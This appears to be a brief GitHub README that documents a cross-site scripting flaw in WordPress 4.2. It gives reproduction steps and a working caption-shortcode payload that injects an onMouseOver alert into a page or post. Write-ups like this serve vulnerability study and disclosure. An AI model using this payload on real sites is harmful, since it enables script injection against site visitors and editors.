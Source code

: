 # GitHub-V-Kali
Attack 1
XSS 
version 4.2
Summary - Wordpress allows you to execute JS on your browser when creating or editing pages or posts
how to recreate - Start a new page, put in any title you want ant then insurt this code into the main text box : TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">XSS 💀</a>
